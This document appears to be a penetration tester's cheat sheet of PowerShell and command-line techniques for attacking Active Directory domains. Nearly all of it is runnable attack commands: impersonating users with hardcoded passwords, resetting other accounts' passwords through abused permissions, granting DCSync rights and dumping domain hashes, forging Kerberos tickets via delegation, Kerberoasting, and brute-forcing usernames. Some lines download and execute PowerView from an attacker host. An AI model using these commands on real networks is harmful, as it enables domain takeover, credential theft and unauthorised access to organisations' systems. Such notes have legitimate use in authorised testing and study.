 # Domain Enumeration + Exploitation

### PowerSploit

#### Impersonate Another Domain User

{% code overflow="wrap" %}
````powershell
$cred = New-Object System.Management.Automation.PSCredential "BURMAT\John.Smith", $(ConvertTo-SecureString "Spring2020!" -AsPlainText -Force);

Find-DomainShare -ComputerName fs01.burmat.local -Credential $cred -ComputerDomain burmat.local -CheckShareAccess

Invoke-UserImpersonation -Credential $cred

# now we can read the directory impersonating another user if permissions exist:
dir \\fs01.burmat.local\Private```
### Enumerate GPO's
```powershell
"{7EA15487-7F5B-4CE3-C029-CEBE6FFE6D47}" | Get-DomainGPO
````
{% endcode %}

#### Reset Domain User Password

If you own the owner of another AD user object (`WriteOwner`, `WriteDACL`, `GenericWrite`, `Owner`, etc), you can reset the password with ease:

{% code overflow="wrap" %}
```powershell
IEX(New-Object Net.WebClient).downloadString('http://10.10.10.123/ps/PowerView.ps1')
$user = 'DOMAIN\owner_acct';
$pass= ConvertTo-SecureString 'Password123!' -AsPlainText -Force;
$creds = New-Object System.Management.Automation.PSCredential $user, $pass;
$newpass = ConvertTo-SecureString 'burmatw@sh3r3' -AsPlainText -Force;
Set-DomainUserPassword -Identity 'DOMAIN\vuln_user' -AccountPassword $newpass -Credential $creds;
```
{% endcode %}

Or if you can set yourself as owner, the following will do:

{% code overflow="wrap" %}
```powershell
IEX(New-Object Net.WebClient).downloadString('http://10.10.10.123/ps/PowerView.ps1')
Set-DomainObjectOwner -Identity it_admin -OwnerIdentity burmat
Add-DomainObjectAcl -TargetIdentity it_admin -PrincipalIdentity burmat
$newpass = ConvertTo-SecureString -String 'burmat123$' -AsPlainText -Force
Set-DomainUserPassword -Identity it_admin -AccountPassword $newpass
```
{% endcode %}

Or you can do it using Impacket's "smbpasswd.py", as shown below.

#### Add/Exploit DCSync Rights

Do you have `WriteDACL` to a domain? Give DCSync rights to an unprivileged domain user account:

{% code overflow="wrap" %}
```powershell
Add-DomainObjectAcl -TargetIdentity "DC=burmat,DC=local" -PrincipalIdentity jsmith -Rights DCSync
```
{% endcode %}

And use these rights to dump the hashes from the domain:

{% code overflow="wrap" %}
```
meterpreter > dcsync_ntlm burmat.local\\jsmith
```
{% endcode %}

### Impacket

Thanks to the [impacket](https://github.com/SecureAuthCorp/impacket) toolset, exploiting misconfigurations in AD environments is made easier.

### Kerberos

#### Brute Usernames with Nmap

{% code overflow="wrap" %}
```bash
nmap -v -Pn -p 88 --script krb5-enum-users.nse --script-args "realm='burmat.local', userdb='users.txt'" 10.10.10.123
```
{% endcode %}

#### GenericWrite to Host + User SPN = PWN

If we have `GenericWrite` privileges over a host and we are a user that has an SPN, we can write our SID to the `msDS-AllowedToActOnBehalfOfOtherIdentity` property against the AD object and forge tickets as anyone we like. You can read more about it here: [https://alsid.com/company/news/kerberos-resource-based-constrained-delegation-new-control-path](https://alsid.com/company/news/kerberos-resource-based-constrained-delegation-new-control-path)

{% code overflow="wrap" %}
```powershell
## we can write our delegation attribute to the DC with the following:
$UserSid = Get-DomainUser svc_burmat -Properties objectsid | Select -Expand objectsid;
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($UserSid))";
$SDBytes = New-Object byte[] ($SD.BinaryLength);
$SD.GetBinaryForm($SDBytes, 0);
Get-DomainComputer websrv.burmat.local | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes};

## use rubeus to forge tickets as administrator accounts
rubeus.exe s4u /user:svc_burmat /ticket:doIFFDCCBRCg..SNIP.. /impersonateuser:administrator /msdsspn:cifs/websvr.burmat.local /ptt;
```
{% endcode %}

#### Setting an SPN

**With `setspn.exe`:**

{% code overflow="wrap" %}
```powershell
setspn -s MSSQLSvc/USER-PC01.burmat.local burmat.local\svc-mssql 
setspn -L burmat.local\svc-mssql

# remove with:
setspn -d MSSQLSvc/USER-PC01.burmat.local burmat.local\svc-mssql
```
{% endcode %}

`ActiveDirectory` module:

{% code overflow="wrap" %}
```powershell
Set-ADUser -Identity svc-mssql -ServicePrincipalNames @{Add='MSSQLSvc/USER-PC01.burmat.local','host/USER-PC01.burmat.local'};

# clear them out with
Set-ADUser -Identity svc-mssql -ServicePrincipalNames $Null;
```
{% endcode %}

#### Listing SPNs

**Using `ldifde`**

{% code overflow="wrap" %}
```powershell
ldifde -d "DC=burmat,DC=local" -l ServicePrincipalName -F C:\SPNs.txt
```
{% endcode %}

**Using the PowerShell Module `ActiveDirectory`**

{% code overflow="wrap" %}
```powershell
Get-ADComputer -Filter * -Properties ServicePrincipalNames | Select-Object -ExpandProperty ServicePrincipalNames;

Get-ADUser -Filter * -Properties ServicePrincipalNames | Select-Object -ExpandProperty ServicePrincipalNames;
```
{% endcode %}

**With `DirectorySearcher`**

{% code overflow="wrap" %}
```powershell
$s = New-Object DirectoryServices.DirectorySearcher([ADSI]"");
$s.PageSize = 2000; 
$s.Filter = "(servicePrincipalName=*)";
$s.FindAll();
```
{% endcode %}

**Using `ldapsearch`**

[https://burmat.gitbook.io/security/hacking/domain-exploitation#ldap-enumeration](https://burmat.gitbook.io/security/hacking/domain-exploitation#ldap-enumeration)

#### Creating a Keytab

{% code overflow="wrap" %}
```powershell
ktpass /princ wsman/svc-mssql@burmat.local /mapuser svc-mssql@burmat.local /pass "S3cur3PW123" /out svc-mssql.keytab /crypto all /ptype KRB5_NT_PRINCIPAL /mapop set
```
{% endcode %}

#### Kerberoasting:

**Rubeus**

{% code overflow="wrap" %}
```powershell
rubeus.exe kerberoast /creduser:burmat.local\xsvc /credpassword:S3cur3PW123 /outfile:user.hash
```
{% endcode %}

**PowerView**

{% code overflow="wrap" %}
```sh
Get-DomainUser * -SPN | Get-DomainSPNTicket -OutputFormat Hashcat | Export-Csv .\ticket.csv -NoTypeInformation
```
{% endcode %}

### Miscellaneous

{% code overflow="wrap" %}
```powershell
# list shared folders
Get-WmiObject -Class Win32_Share -Computer dc1.burmat.local

## get .NET versions installed:
dir C:\Windows\Microsoft.NET\Framework
```
{% endcode %}
